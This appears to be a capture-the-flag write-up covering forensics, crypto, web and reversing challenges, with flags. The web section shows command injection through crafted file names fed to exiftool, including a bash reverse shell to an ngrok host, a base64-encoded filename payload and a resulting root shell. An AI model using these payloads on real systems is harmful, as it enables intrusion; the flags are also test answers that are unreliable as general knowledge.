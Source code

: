 ## BIBBA 1/Forensics
- description
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/d2871924-ee53-45bc-9df3-26557a5ab988)
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/c2859581-b48a-4317-9801-a273deb5e4ce)
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/effaaff9-393d-4d87-8381-d55bff37ea7c)
0CTF{pNg_h34d3rs_4r3_A_P4!n_P4!n_!n_7h3_455}
## sanity check
- description
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/983bd774-9124-4545-a014-a3422392669e)
- go to the source code and search for "0CTF"
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/db927e03-bb29-4d6c-8126-63ddf0d56930)
0CTF{0ut_0f_B0unds}
## echoes of encryption/crypto
- description
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/f09f6cda-98e8-4ed4-b3bf-fe524ada90b4)
- encrypt.py
```
import random
import string
def encrypt_string(input_string, seed):
    random.seed(seed)   
    allowed_chars = string.ascii_letters + string.digits
    key = ''.join(random.choices(allowed_chars, k=len(input_string)))
    encrypted_string = ''
    for i in range(len(input_string)):
        encrypted_char = chr(ord(input_string[i]) ^ ord(key[i]))
        encrypted_string += encrypted_char
    return encrypted_string.encode().hex()
seed_value = '311222'
input_string = ""
encrypted = encrypt_string(input_string, seed_value)
```
- cipher
```
5e04610a22042638723c571e1a5436142764061f39176b4414204636251072220a35583a60234d2d28082b
```
- decrypt.py
```
import random
import string
#seed1='CVE-2022-42269'
#seed1='202242269'
#seed1='CVE-2022-42269'
#seed1=7.9
seed1=202242269
random.seed(seed1)
allowed_chars = string.ascii_letters + string.digits
key = ''.join(random.choices(allowed_chars, k=43))
# print("key si ",key,"len is ",len(key))
c='5e04610a22042638723c571e1a5436142764061f39176b4414204636251072220a35583a60234d2d28082b'
#after applying bytes.fromhex()
value1=bytes.fromhex(c)
#after decodig to asci from bytes
value2=value1.decode()
# print("value2 is ",value2,"len is ",len(value2))#43
ans=''
for i in range(len(value2)):
    x=chr(ord(value2[i])^ord(key[i]))
    ans=ans+x
# print("ans is ",ans)
# print("rev is ",ans[::-1])
print("ans ",ans)
```
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/8d3cfc3a-63f9-46c7-9219-f1446ab9be83)
- 0CTF{alw4y5_r3ad_7he_d3scr!pti0n_c4r3fully}
## Data's Data/web
- description
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/d5c96849-aec8-4582-941e-ad7d39975e82)
- frontend
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/4053f72d-236c-45d1-b839-6f02e34505cc)
- it runs exiftool on the provided file
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/1416894e-d4e4-48b2-9515-a2fa058815cc)
- so it is could be like `exiftool filename.extension`
- so if this is the case we can try to execute commands(cmd injection)
- IFS -internal field seperator
## making malicious file names
1:try id
```
C:\home\radha\Desktop\exiftool> touch '$(id)'                                                                             
C:\home\radha\Desktop\exiftool> ls
'$(id)'
```
- result
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/5d3327b1-a5e4-4ca9-8df3-946c5b61e4b5)
2: try to have a blind cmd execution(sleep?)
```
C:\home\radha\Desktop\exiftool> touch '$(sleep${IFS}10)'                                                                             
C:\home\radha\Desktop\exiftool> ls
'$(id)'  '$(sleep${IFS}10)'
```
- here the `${IFS}` is for a space
- we do get the response only after 10 secnonds from browser web page
### getting reverse shell
- `bash -i >& /dev/tcp/0.tcp.in.ngrok.io/17011 0>&1`
- started a ngrok tcp server at port x(say 1234)  `ngrok tcp 1234`
- started a netcat listner at port x(1234) `nc -lvp 1234`
- the`0.tcp.in.ngrok.io` is part of hostname
- the 18308 is the corresponding port
```
C:\home\radha\Desktop\exiftool> ngrok tcp 1234
```
![image](https://github.com/m0wn1ka/ctf/assets/127676379/423bc5e4-a413-4b29-8906-edebd460f41f)
- the charcters like &> must be encoded
- so i did base64 encoding
- payload of reverse shell
```
C:\home\radha\Desktop\exiftool> echo 'bash -i >& /dev/tcp/0.tcp.in.ngrok.io/17011 0>&1'|base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzAxMSAwPiYxCg==
```
- we need this payload to be base64 decoded on the server and get executed
- so we need to run on server like this
```
echo THIS_PAYLOAD |base64 -d|bash
```
- so this must be exeuted on the server side
- just as we executed sleep by $(sleep${IFS}10) we follow a similar approach
```
$(echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzAxMSAwPiYxCg'|base64 -d|bash)
$(echo${IFS}'YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzAxMSAwPiYxCg'|base64${IFS}-d|bash)
```
- so this must be the name of file

- creatig file
```
touch "$(echo${IFS}'YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5pbi5uZ3Jvay5pby8xNzAxMSAwPiYxCg'|base64${IFS}-d|bash)"
```
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/38495d4c-354b-480a-8d08-5c141a1350d1)
- rev shell
```
C:\home\radha\Desktop\exiftool> nc -nvlp 1234 
listening on [any] 1234 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 37650
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@traboda:/# whoami
whoami
root
root@traboda:/# ls
ls
```
- gettgin flag
```
root@traboda:/# cat Do*
cat Do*
FROM python:3.11
WORKDIR /
RUN apt update
RUN apt -y install exiftool
COPY requirements.txt requirements.txt
RUN pip install -r requirements.txt
COPY . .
ENV flag="0CTF{Congratulations_for_finding_the_flag}"
EXPOSE 80
CMD python3 index.pyroot@traboda:/#
```
- 0CTF{Congratulations_for_finding_the_flag}
## one liner/rev
- description
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/641852b0-f608-4b63-a778-ca07fd19e971)
```
flag = "ƃŰŶŉůļźŞŷŭŪƄŰŘŰŧŖŔŦĦŨĬƀźōşŋůĲňĳźĖőƃũťũŸŪĞ"
flag = [~(c^i)*(-int(1/(5**0.5) * ((1 + 5**0.5)**1 / 2 - (1 - 5**0.5)**1 / 2))) + len(flag) * 6 + 15 for i, c in enumerate([ord(a) for a in flag[::-int(1/(5**0.5) * ((1 + 5**0.5)**1 / 2 - (1 - 5**0.5)**1 / 2))]])]
print(tostr(flag))
#  0CTF{___R___E__D___A___C____T_____E____D______}
```
- 0CTF{@_j0k3_0r_@_cl3v3r_@nd_funny_r3m@rk}
## score board
![image](https://github.com/m0wn1ka/ctf/assets/127676379/619a4f99-b0f3-46f5-a3b3-eb5413f62e66)
